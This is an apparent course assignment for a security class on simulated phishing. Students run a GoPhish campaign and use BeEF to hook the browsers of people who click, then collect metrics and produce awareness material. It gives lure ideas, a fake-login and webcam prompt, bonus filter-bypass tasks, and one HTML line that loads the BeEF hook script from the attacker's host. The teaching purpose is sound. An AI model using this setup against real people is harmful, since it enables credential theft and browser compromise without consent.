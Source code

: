 ## Final Project: Human Weakness Exploitation via BeEF & GoPhish  
**Theme**: *Simulating Phishing and Post-Click Exploitation*

### **Objectives**

- Design a targeted phishing campaign.
- Capture clicks and interaction data via GoPhish.
- Use BeEF to hook a browser and demonstrate what an attacker could do post-click.
- Create a report + awareness material explaining the attack and how to prevent it.

---

### **Project Steps**

#### 1. Set Up Lab Environment
- Kali Linux with:
  - BeEF installed (`/usr/share/beef-xss`)
  - GoPhish (download from [https://github.com/gophish/gophish](https://github.com/gophish/gophish))
- Optional: Metasploitable VM or any sandboxed target for realism
- Ensure all testing is done in a **contained environment with full consent**.

---

#### 2. GoPhish Campaign Setup
- Create a **phishing email** with:
  - A believable message (e.g., "Important Update Required")
  - A link to a fake login page or document portal

- Landing page should include the **BeEF hook**:
  ```html
  <script src="http://<your-kali-ip>:3000/hook.js"></script>
  ```

- Start GoPhish, configure your SMTP settings, and launch the campaign.


#### 3. BeEF Exploitation Phase
- Once the user lands on the page, BeEF will show a **hooked browser**.
- Demonstrate basic post-exploitation:
  - Alert box
  - Browser fingerprinting
  - Fake login prompt
  - Webcam prompt (but **do not use** it unless it's your own machine)

#### 4. Metrics to Collect
- Emails sent / opened
- Links clicked
- Hooked sessions in BeEF
- Commands successfully run in BeEF
- Time-to-click stats

#### 5. Awareness & Defense Material
Each student/team must create:
- A poster, flyer, or video showing:
  - How this attack works
  - Red flags to watch for
  - Technical and non-technical defenses (e.g., email filtering, user training, browser hardening)


#### 6. Final Report
- Executive Summary
- Attack Simulation Details
- Ethical Boundaries Maintained
- GoPhish Campaign Overview
- BeEF Post-Click Actions
- Defense Recommendations

### Ethics & Rules
- No phishing real users without explicit consent
- No persistence, malware, or real data exfiltration
- All email recipients must be part of the exercise and aware of the simulation either before or immediately after
- Hooked browsers must be student-owned or lab machines


- Integrate a **custom payload** in BeEF
- Bypass a basic email filter or browser security warning (safely)
- Create a **mock SOC alert** based on the campaign
